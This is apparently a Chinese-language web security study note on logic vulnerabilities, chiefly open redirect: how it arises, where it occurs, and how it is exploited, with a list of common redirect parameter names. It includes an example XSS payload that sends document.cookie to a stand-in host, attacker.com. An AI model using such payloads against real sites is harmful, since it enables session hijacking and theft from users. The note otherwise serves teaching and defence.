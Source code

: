 ```yaml
---  
title: 逻辑漏洞  
tags:  
  - web安全  
creation date: 2024-03-15  
done: true  
---  
```

> **逻辑漏洞**：因程序员的思维逻辑的不足，导致编写程序产生的漏洞。与传统漏洞不同点是，逻辑漏洞是用合法的方式就可达成破坏的效果。这类漏洞一般的防护手段或者设备无法阻止，漏洞扫描器也难以发现。  

常见场景：大部分出现在互联网等大企业，特别是业务越多，逻辑越混乱出现的可能性就越大。逻辑漏洞更需要的是细心、对业务的熟悉程度，以及广泛的知识面。  

# 1. url 跳转漏洞  
---  
也被称为开放重定向漏洞，可以跳转到任意指定的 url 。  
服务器端未对传入的跳转 url 变量进行检查和过滤。攻击者可以利用该漏洞来伪造 URL，引导用户跳转到恶意站点，进行钓鱼、诱导下载等攻击行为。  
常出现于接受用户输入并将其用于构建 URL 的场景，例如：  
- 用户身份验证和授权：在用户身份验证和授权的过程中，URL 参数通常用于跳转到另一个页面。例如，在某些网站上，用户必须在登录页面上提供凭据，然后被重定向到其他页面。攻击者可能会利用这种机制，将受害者重定向到一个看起来合法的页面，以窃取其登录凭据。  
- 第三方应用程序：在某些情况下，Web 应用程序可能允许第三方应用程序访问其API，并使用URL参数跳转到其他页面。如果未正确验证和授权第三方应用程序，攻击者可以通过构建恶意 URL 来重定向用户到恶意站点。  
类似的跳转类型：`http://example.com/login.php?redirect=http:http//attacker.com/evil.php`  
攻击者可以通过将恶意站点URL（如 `http://attacker.com/evil.php`）放入`redirect`参数中，使得用户在登录成功后跳转到攻击者的站点上，从而进行一些恶意操作。攻击者还可以利用一些其他技术手段，如URL缩短服务、欺骗用户等，更好地利用该漏洞进行攻击。  

## **1.1 利用思路**  
- 钓鱼网站  
- 配合 xss 漏洞  
    攻击者可以通过 URL 漏洞构造出一个恶意的 URL ，并将其嵌入到一个页面中。当用户点击该链接时，可能会触发XSS漏洞，从而导致恶意代码被执行，例如窃取用户的敏感信息、注入恶意代码等。  
    构造URL如下：  

    ```Plain Text  
    https://www.example.com/login.php?redirect_url=<script>location.href='https://attacker.com/steal.php?cookie='+document.cookie</script>  
    ```  

    当用户点击该链接进行登录时，会被重定向到一个恶意站点，并将用户的Cookie信息传输到攻击者的服务器上，攻击者可以通过获取到的Cookie信息进行后续的攻击。  

- 配合 csrf 漏洞  
- 配合浏览器漏洞：CVE-2018-8174 等  

## 1.2 常见的bypass方法  
Url 跳转常用参数：  
redirect, url, redirectUrl, callback, return_url, toUrl, ReturnUrl, fromUrl, redUrl, request, redirect_to, redirect_url, jump, jump_to, target, to, goto, link, linkto, domain, oauth_callback 等。  

假设存在如下情况：    
- `www.xxx.com`：存在url跳转漏洞的网站  
    - `redirect`是`www.xxx.com`网站的跳转页面  
    - `login.xxx.com`是该网站的登录页面  
- `www.attacker.com`：攻击者的网站  
